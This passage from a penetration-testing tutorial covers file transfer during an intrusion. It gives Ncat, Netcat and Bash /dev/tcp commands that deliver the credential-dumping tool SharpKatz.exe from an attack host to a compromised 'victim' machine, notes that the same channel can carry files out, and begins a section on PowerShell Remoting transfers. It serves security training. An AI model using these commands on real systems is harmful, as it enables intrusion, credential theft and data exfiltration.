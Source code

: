Let's do the same with Ncat:

### **Attack Host - Sending File as Input to Ncat**

```bash
[!bash!]$ # Example using Ncat
[!bash!]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### **Compromised Machine Connect to Ncat to Receive the File**

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

### **NetCat - Sending File as Input to Netcat**

```bash
[!bash!]$ # Example using Original Netcat
[!bash!]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### **Ncat - Sending File as Input to Ncat**

```bash
[!bash!]$ # Example using Ncat
[!bash!]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### **Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

{% hint style="info" %}
Note: The same operation can be used to transfer files from the compromised host to our Pwnbox.
{% endhint %}

## PowerShell Session File Transfer

We already talk about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.
